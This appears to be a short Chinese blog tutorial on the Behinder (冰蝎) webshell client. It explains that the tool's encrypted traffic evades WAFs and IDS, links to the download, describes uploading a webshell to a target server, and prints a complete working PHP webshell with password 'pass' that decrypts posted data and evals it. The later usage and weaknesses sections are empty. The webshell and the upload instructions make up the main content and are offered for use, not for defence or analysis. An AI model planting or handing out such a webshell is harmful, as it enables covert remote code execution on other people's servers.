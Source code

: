 ```yaml
---
layout: post
title: 冰蝎基础使用
categories: [安全工具]
description: 冰蝎基础使用资料
keywords: 安全工具 
---
```


# 冰蝎基础使用
  Webshell 客户端。流量动态加密，攻击特征安全设备（WAF、WebIDS)难检测。

  通讯加密方式: `AES`（高级加密算法，对称加密，微信小程序使用此种方法）

## 下载安装

环境需求:

> java6 以上环境

下载地址:

[冰蝎](https://github.com/rebeyond/Behinder/releases)

1. 下载 `Behinder_v3.0_Beta_9_fixed.zip`
2. 双击 `Behinder` 即可打开



## 使用方式

### 使用前提

- 上传木马
- 获取木马路径和拥有访问权限

### 1. 上传木马

通过文件上传，上传冰蝎马到目标服务器

例如：

上传文件 `shell.php` 到 PHP 服务器路径下：  

> 连接密码: pass


```shell
<?php
@error_reporting(0);
session_start();
if (isset($_GET['pass']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
else
{
    $key=$_SESSION['k'];
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __construct($p) {eval($p."");}}
	@new C($params);
}
?>

```


### 2. 冰蝎连接



## 冰蝎的缺点

## 参考


https://blog.csdn.net/qq_42342141/article/details/105725044